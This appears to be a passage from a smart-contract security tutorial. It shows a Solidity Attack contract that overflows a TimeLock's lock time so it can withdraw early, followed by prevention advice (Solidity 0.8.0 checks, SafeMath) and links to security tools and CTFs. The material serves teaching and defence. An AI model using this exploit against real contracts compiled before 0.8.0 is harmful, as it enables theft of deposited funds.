 ```
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### how to prevent integer underflows and overflows

As of version 0.8.0, the Solidity compiler rejects code that results in integer underflows and overflows. However, contracts compiled with a lower compiler version should either perform checks on functions involving arithmetic operations or use a library (e.g., [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) that checks for underflow/overflow.

## related-tutorials

- **[Fork Checker](https://forkchecker.hashex.org/)** 
- **[ABI](https://abi.hashex.org/)** 
- **[OpenZeppelin Defender Sentinels](https://docs.openzeppelin.com/defender/sentinel)** 
- **[Tenderly Real-Time Alerting](https://tenderly.co/alerting/)** 
- **[Awesome BlockSec CTF](https://github.com/blockthreat/blocksec-ctfs)**
- **[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)** 
  